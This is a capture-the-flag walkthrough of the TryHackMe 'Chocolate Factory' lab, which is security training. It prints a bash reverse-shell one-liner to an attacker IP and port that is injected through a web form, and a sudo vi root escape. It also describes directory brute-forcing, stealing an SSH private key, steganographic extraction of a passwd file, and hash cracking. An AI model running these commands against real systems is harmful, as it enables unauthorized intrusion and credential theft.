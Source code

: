 
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on 1

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  `uname -a` command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
```
 


remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as `www-data` !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , `key_rey_key` seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the `validate.php` code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into `rsa_key` file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172491-9d319600-ba98-11eb-842f-6a0191b2e1e0.png"/>
</p>

After successfully login , you are now `charlie`
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172598-bd615500-ba98-11eb-9ae0-21a7e14e2af2.png"/>
 </p>
 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172772-ea156c80-ba98-11eb-9d69-1bde7535386f.png"/>

</p>
And we got the `user` flag !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173016-352f7f80-ba99-11eb-8cdd-19c7f06259af.png"/>
 </p>
 
 now the root flag ! 
 type  `sudo -l` to check sudo permission for charlie
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173732-3b722b80-ba9a-11eb-8dca-d8db75cd78e7.png"/>
</p>

by checking at <a href="https://gtfobins.github.io">GTFO bins</a> we found that vi can be exploited
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173881-6fe5e780-ba9a-11eb-9760-a12f4680167b.png"/>
 
 ```
 sudo vi -c ':!/bin/sh' /dev/null
 ```
</p>

We are now ROOT YEAH BOI and we found one python file (probably flag)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174264-f1d61080-ba9a-11eb-8277-ab7fb5d64380.png"/>
</p>

 Enter the key we found earlier and we got the flag !
  <p align="center">
 <image src="https://user-images.githubusercontent.com/78603128/119174570-51ccb700-ba9b-11eb-94de-4e24d661a787.png"/>
 </p>
   <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174584-56916b00-ba9b-11eb-83ee-b3ab5c78817f.png"/>
 </p>

## Hands on 2
Alternatively , to get charlie's password to log into the web browser we can use nmap/rustsan to scan for network open ports revealed the `` ftp service `` exists and contain one image (**gum_room.jpg**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174953-ce5f9580-ba9b-11eb-96fa-28042a4b4c6c.png"/>
</p>

we can login as ``Anonymous`` and get the image file
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175296-3ada9480-ba9c-11eb-973a-9963a924335d.png"/>
</p>

 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175751-d0762400-ba9c-11eb-8734-d6c744484b69.png"/>
</p>

look like ordinary picture but there can be something hidden inside pictures >:D (**Steganography**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176018-26e36280-ba9d-11eb-9392-fbed6f605106.png"/>
</p>

Using ``steghide`` we found a text file **(b64.txt)** with base 64 string 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176294-7f1a6480-ba9d-11eb-97b9-b88e506e0cef.png"/>
</p>

Decrypt it and we got all user leaked ``etc/passwd``
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176446-b557e400-ba9d-11eb-8263-1c8284cc46ac.png"/>
</p>
including charlie's
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176620-e801dc80-ba9d-11eb-9a52-35f06cef4585.png"/>
</p>

paste the hash into a empty file (in my case : charlieCreds) and put it at ``john the ripper`` and let john do the job !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176966-46c75600-ba9e-11eb-9f91-42445e2e2123.png"/>
</p>

then paste the pass and login charlie on the website
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119177393-da008b80-ba9e-11eb-9567-da6126fd8d24.png"/>
</p>












